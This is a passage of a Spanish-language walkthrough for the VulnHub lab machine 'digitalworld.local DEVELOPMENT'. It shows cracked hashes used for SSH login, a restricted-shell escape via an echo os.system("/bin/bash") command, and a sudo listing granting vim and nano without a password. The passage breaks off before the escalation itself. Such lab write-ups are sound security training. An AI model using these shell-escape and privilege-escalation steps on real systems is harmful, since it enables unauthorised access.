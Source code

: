 Ingresamos los hashes en `hashes.com` y obtenemos resultados.

![pass](/assets/img/commons/vulnhub/digitalworld.local-DEVELOPMENT/pass.png){: .center-image }


Probamos ingresar por ssh con los datos obtenidos. Usuario permitido `intern`.

Al ingresar no tenemos una consola interactiva, con `?` listamos los comandos que tenemos disponibles y con `echo os.system("/bin/bash")` lanzamos una bash.

```bash
❯ ssh intern@10.11.12.23 -p 2222
intern@10.11.12.23's password:
Last login: Thu Feb 20 19:36:23 2025 from 10.11.12.10
Congratulations! You tried harder!
Welcome to Development!
Type '?' or 'help' to get the list of allowed commands
intern:~$
intern:~$ ?
cd  clear  echo  exit  help  ll  lpath  ls
intern:~$ echo os.system("/bin/bash")

intern@development:~$ ls
access  local.txt  work.txt
intern@development:~$
intern@development:~$ cat work.txt
1.      Tell Patrick that shoutbox is not working. We need to revert to the old method to update David about shoutbox. For new, we will use the old director's landing page.

2.      Patrick's start of the third year in this company!

3.      Attend the meeting to discuss if password policy should be relooked at.
intern@development:~$ ls
access  local.txt  work.txt
intern@development:~$ cat local.txt
Congratulations on obtaining a user shell. :)
intern@development:~$
```


## Escalación de privilegios

Migramos al usuario `Patrick` que tenemos su clave y validamos los permisos sobre el sistema.

```bash
intern@development:~/access$ su - patrick
Password:
patrick@development:~$ sudo -l
Matching Defaults entries for patrick on development:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User patrick may run the following commands on development:
    (ALL) NOPASSWD: /usr/bin/vim
    (ALL) NOPASSWD: /bin/nano
patrick@development:~$
```
